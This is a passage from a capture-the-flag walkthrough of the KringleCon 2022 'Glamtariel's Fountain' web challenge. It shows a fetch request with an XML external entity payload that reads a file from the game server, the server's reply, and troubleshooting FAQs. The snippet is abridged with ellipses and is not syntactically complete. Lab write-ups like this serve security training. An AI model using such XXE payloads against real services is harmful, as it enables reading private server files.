 Putting it all together, we create the request:
```javascript
fetch("https://glamtarielsfountain.com/dropped", {
    "content-type": "application/xml",
    ...
  },
"body": "<?xml version='1.0' ?><!DOCTYPE root   [ <!ENTITY xxe SYSTEM 'file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt' >]> <root><imgDrop>img1</imgDrop><who>princess</who><reqType>&xxe;</reqType></root>",
...
```
That returns the response:
```json
{
    "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
    "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```
![Pasted image 20230105000540](images/Pasted%20image%2020230105000540.png)

We grab the file, fill in the URL *https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png* into our Objectives and we stagger out, half dead but still glorious, with our Web Ring.

![200](images/WebRing.jpg)

### Quirks/FAQs about Glamtariel's Fountain
- **Q**1: I get "Trying to TAMPER with Kringle's favorite cookie recipe or the entrance tickets can't help you Grinchum! I'm not sure what you are looking for but it isn't here! Get out!^Miserable trickster! Please click him out of here.! ."
- **A**1: Your session may have timed out. Refresh the browser, and watch the drop-request again. Use the  **"x-grinchum"** header value from the drop-request in any requests you send.
- **Q2** : I get "Zoom, Zoom, very hasty, can't do that yet!"
- **A2**: You need to get to the screen with 4 colorful rings before you can send your XML. Keep dragging and dropping icons onto the princess and fountain until the icons change.  

Jump to: [KringleCon 2022 Orientation](KringleCon%202022%20Orientation.md) | [Tolkien Ring](Tolkien%20Ring.md) | [Elfen Ring](Elfen%20Ring.md) | Web Ring| [Cloud Ring](Cloud%20Ring.md)|[Burning Ring of Fire](Burning%20Ring%20of%20Fire.md)| [KringleCon 2022 Wrap-up](KringleCon%202022%20Wrap-up.md)